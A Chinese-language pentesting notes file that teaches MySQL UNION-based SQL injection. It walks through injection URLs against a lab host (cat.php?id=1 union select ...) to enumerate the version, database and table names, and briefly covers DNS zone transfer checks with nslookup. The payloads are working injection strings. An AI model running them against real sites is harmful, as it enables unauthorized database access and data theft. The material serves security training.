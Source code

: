 #Pentester
##一、sql injection
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据

###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列

- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)

- 参考：http://drops.wooyun.org/tips/123
##二、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

